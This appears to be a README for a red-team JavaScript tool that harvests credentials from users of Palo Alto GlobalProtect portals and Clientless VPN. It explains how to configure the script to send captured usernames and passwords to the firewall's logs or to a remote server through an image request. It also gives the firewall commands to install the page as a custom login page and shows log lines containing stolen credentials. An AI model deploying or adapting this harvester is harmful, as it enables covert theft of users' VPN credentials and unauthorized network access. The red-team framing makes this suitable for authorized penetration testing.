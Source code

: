 # Palo Alto Network Firewall Response Pages Login Credential Harvester

This project is a javascript gadget that red-teamers can use to harvest
credentials from users signing in to GlobalProtect Portals and Clientless VPN.

The gadget operates in two modes, `local` and `remote`, and installs an event
listener that intercepts the successful login form submissions and sends the
user credentials to either local URL path on the firewall or a remote web site.

The web access logs on the local firewall or remote server can then be searched
for the requests containing the credentials.

## Configuration

The `harvester` response page script requires some editing and configuration
before using.

Near the top of the page are three variables:

```javascript
const method = "local"; // Change this to "local" to send to firewall logs
const token = "qwerty"; // Change this to a unique value
var remoteUrl = "<image url>"; // An image, 1x1 pixel PNG, hosted on a server that you control.
```

- `method` controls whether the script sends the request to the `local` firewall
  GlobalProtect web server or to a `remote` server.
- `token` should be set to a unique value, e.g. a per campaign identifier, to
  make it easier to search the logs.
- `remoteUrl` is a URL to an image file hosted on a server that you control and
  have access to the access logs.
  We recommend this [1x1.png](https://en.m.wikipedia.org/wiki/File:1x1.png).
  The `remoteUrl` is used with the `remote` method.
  The `remoteUrl` must return an image file (gif, jpeg, png, svg, etc).

## Installation

After configuring the response page you can load it into the firewall with this
command:

```
# set shared response-page global-protect-portal-custom-login-page <harvester name> page <base64 encoded harvester>
# set global-protect global-protect-portal <portal name> portal-config custom-login-page <harvester name>
# commit
```

## Usage

The `harvester` currently only supports harvesting credentials for the
`GlobalProtect Portal Login Page` response page.

There are two use cases where the credentials for users signing in can be
captured:

1. Users signing in to the GlobalProtect Portal to download the GlobalProtect
   VPN agent client software.
2. Users signing in to the GlobalProtect Portal to connect to the Clientless VPN
   (aka SSL VPN) portal.

In most environments the first case will be infrequently used as they will
distribute the client to their endpoints via their endpoint management platform.
Target environments are more likely to leave this enabled for managed service
providers and contractors to be able to download and install the VPN client on
their own computers.

The second case, if in use, will be more likely to gather credentials as the
users may have more need to connect to the Clientless VPN to access the
applications it provides access to.

### Credentials logs

The credentials will be in the access logs of the `remote` web server.
Easiest way to find them is to search for the `token` value you configured.

They will remote logs will look something like this:

```
1.2.3.4 - - [18/Jan/2025:20:49:34 -0800] "GET /gpvpn/logo.png?token=qwerty&username=alice&password=letmein123&nc=0.7448065807029041 HTTP/2.0" 200 241 "https://gpvpn.victim.com/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36"
```

The `local` method credentials can be found in the SSL VPN access logs.
These are only available via the CLI or tech support file.

To view them on the CLI SSH to the firewall and run:

```
less webserver-log sslvpn_access.log
```

Then type `/`, type the token value and press enter to search.
Type `/` and enter again to repeat the search.

From the CLI you can generate and download the tech support file using the
commands:

```
scp export tech-support to user@host.domain:/directory/to/save
```

The access log can be found in `/var/log/nginx/sslvpn_access.log` in the tech
support tar.gz file.

The local logs will look like this:

```
1.2.3.4 54583 - 172.16.1.4 20077 [19/Jan/2025:00:44:13 -0800] "GET /global-protect/portal/images/logo-pan-48525a.svg?token=qwerty&username=alice&password=letmein123&nc=0.4744690309853232 HTTP/1.1" 200 12316 "https://gpvpn.victim.com/global-protect/login.esp" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36" 1737276253.465 0.000 - 1510
```
## To Do

Develop gadgets for the `Captive Portal Comfort Page` and `MFA Login Page`.
